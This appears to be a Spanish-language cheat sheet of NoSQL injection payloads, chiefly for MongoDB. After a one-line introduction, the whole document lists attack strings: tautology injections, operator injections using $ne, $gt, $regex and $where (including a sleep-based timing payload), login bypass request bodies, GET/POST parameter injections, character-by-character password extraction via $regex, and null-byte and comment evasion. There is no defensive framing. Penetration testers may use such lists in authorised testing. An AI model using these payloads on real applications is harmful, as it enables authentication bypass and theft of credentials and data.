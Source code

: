 
---
# Payloads útiles para NoSQL Injection

A continuación reunimos una lista de payloads que pueden emplearse en diferentes contextos de inyección NoSQL. Es importante recordar que su efectividad depende del motor de base de datos (MongoDB, CouchDB, etc.) y de cómo la aplicación procese las entradas.

---

## Comparaciones básicas

```bash
' || '1'='1
````

```bash
' || 1==1//
```

```bash
' || 1==1%00
```

```bash
' && 'a'=='a
```

```bash
' || true//
```

```bash
' || false || '
```

---

## Operadores MongoDB comunes

```bash
{ "username": { "$ne": null } }
```

```bash
{ "username": { "$gt": "" } }
```

```bash
{ "password": { "$exists": true } }
```

```bash
{ "username": { "$regex": ".*" } }
```

```bash
{ "username": { "$in": ["admin","root","test"] } }
```

---

## Bypass de autenticación

```bash
{ "username": "admin", "password": { "$ne": "xyz" } }
```

```bash
{ "username": { "$eq": "admin" }, "password": { "$regex": ".*" } }
```

```bash
{ "username": { "$gt": "" }, "password": { "$gt": "" } }
```

```bash
{ "username": { "$ne": "guest" }, "password": { "$ne": "guest" } }
```

---

## Uso de `$where`

```bash
{ "$where": "1 == 1" }
```

```bash
{ "$where": "this.username == 'admin'" }
```

```bash
{ "$where": "this.password.length > 0" }
```

```bash
{ "$where": "sleep(5000) || true" }
```

---

## Inyecciones en parámetros GET/POST

```bash
username=admin' || '1'=='1
```

```bash
username=admin' && this.password.match(/.*/)
```

```bash
username[$ne]=anything&password[$ne]=anything
```

```bash
username[$regex]=.*
```

---

## Fuerza bruta de caracteres (ejemplo con `$regex`)

```bash
{ "username": "admin", "password": { "$regex": "^a" } }
```

```bash
{ "username": "admin", "password": { "$regex": "^b" } }
```

```bash
{ "username": "admin", "password": { "$regex": "^.{5}$" } }
```

---

## Payloads con null-byte

```bash
' || 1==1%00
```

```bash
{ "username": { "$ne": null }, "password": { "$ne": null } }%00
```

---

## Comentarios y evasión

```bash
' || 1==1 //
```

```bash
' || 1==1 # 
```

```bash
' || 1==1 -- 
```

---
